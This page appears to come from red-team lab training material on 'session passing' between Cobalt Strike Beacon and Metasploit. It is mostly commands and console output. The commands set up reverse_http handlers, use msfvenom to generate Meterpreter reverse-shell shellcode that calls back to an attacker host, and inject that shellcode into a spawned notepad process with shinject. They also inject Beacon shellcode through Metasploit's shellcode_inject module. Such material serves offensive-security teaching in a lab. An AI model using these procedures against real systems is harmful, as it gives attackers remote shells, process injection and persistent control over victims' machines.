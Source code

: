 Session passing is a means of spawning payloads that can talk to other Cobalt Strike listeners, or even listeners of entirely different C2 frameworks. There are many good reasons for doing this, a few examples include:

-   Leverage a capability within a framework that Cobalt Strike doesn't have.
-   Use different C2 frameworks as backup access in the event the current access is lost.
-   To emulate specific TTPs.

Beacon's staging process is based off Meterpreter's, so you can stage Meterpreter from Beacon. Cobalt Strike has a type of listener called the **Foreign Listener** designed to handle this.

On the Kali VM, launch `msfconsole` and start a new `multi/handler` using the `windows/meterpreter/reverse_http` payload.

```bash
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

  

In Cobalt Strike, go to **Listeners > Add** and set the **Payload** to **Foreign HTTP**. Set the **Host** to **10.10.5.120**, the **Port** to **8080** and click **Save**.

![alt text](file:///android_asset/20230803170650.png)

  

Now to spawn a Meterpreter session from Beacon, simply type `spawn <listener name>`.

```shell
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

```shell
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

  

>  **OPSEC Alert**  
You can only spawn x86 Meterpreter sessions with the foreign listener.

Alternatively, Beacon's `shinject` command can inject any arbitrary shellcode into the specified process. The process can be an existing one, or one we start with the `execute`, `run` or even `shell` commands.

Generate x64 stageless Meterpreter shellcode with `msfvenom`.

```bash
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

  

Copy the shellcode across to the **attacker-windows** machine.

```powershell
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

  

Ensure the multi handler is setup appropriately and inject the shellcode.

```shell
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

```shell
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```

  

This same process can work in reverse, to inject Beacon shellcode from a Meterpreter session.

To generate stageless Beacon shellcode, go to `Attacks > Packages > Windows Executable (S)`, select the desired listener, select **Raw** as the **Output** type and select **Use x64 payload**.

Copy it across to the Kali VM.

```shell
C:\Payloads>pscp beacon-http.bin root@kali:/tmp/beacon.bin
beacon-http.bin           | 255 kB | 255.5 kB/s | ETA: 00:00:00 | 100%
```

  

Then use the `post/windows/manage/shellcode_inject` module to inject it into a process.

```shell
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```